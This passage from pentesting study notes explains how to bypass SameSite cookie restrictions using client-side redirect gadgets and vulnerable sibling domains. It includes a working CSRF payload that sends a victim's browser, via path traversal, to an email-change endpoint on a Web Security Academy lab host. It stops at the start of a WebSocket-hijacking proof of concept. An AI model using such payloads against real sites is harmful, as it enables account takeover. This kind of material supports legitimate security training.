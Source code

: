 - **Bypassing SameSite restrictions using on-site gadgets**:
  If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. However, you may be able to get around this limitation if you can **find a gadget** that results in a secondary request within the same site, like an [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or an [Open Redirection](Open%20Redirection.md) from the DOM.
  >[!example]
>Javascript file performing a dom redirection, called from the page `/post/comment/confirmation?postId=2` with the following line `redirectOnConfirmation('/post');`:
>
  >```js
>redirectOnConfirmation = (blogPath) => {
>    setTimeout(() => {
>        const url = new URL(window.location);
>        const postId = url.searchParams.get("postId");
>        window.location = blogPath + '/' + postId;
>    }, 3000);
>}
>```
>Exploit:
>```html
><script>document.location="https://0ab7007804429578c1546dc7002c0017.web-security-academy.net/post/comment/confirmation?postId=../../../../../../my-account/change-email?email=test%40test.com%26submit=1";</script>
>```
  
   >[!warning]
  Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially, so they still apply the appropriate cookie restrictions.

- **Bypassing SameSite restrictions via vulnerable sibling domains**:
  It's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Vulnerabilities that enable you to elicit an arbitrary secondary request, like [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md), can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks, including [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH))
  >[!example]
  >Session cookie has the SameSite attribute set to Strict: `Set-Cookie: session=9zoajIpR9fdqvXj3IiNbzNHQhC7q8yCo; Secure; HttpOnly; SameSite=Strict`
  >XSS gadget on a different domain from the same site of the vulnerable application:
  >![CSRF2](../../zzz_res/attachments/CSRF2.png)
  >Final PoC to leak victim's chat and perform [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)):
  >```html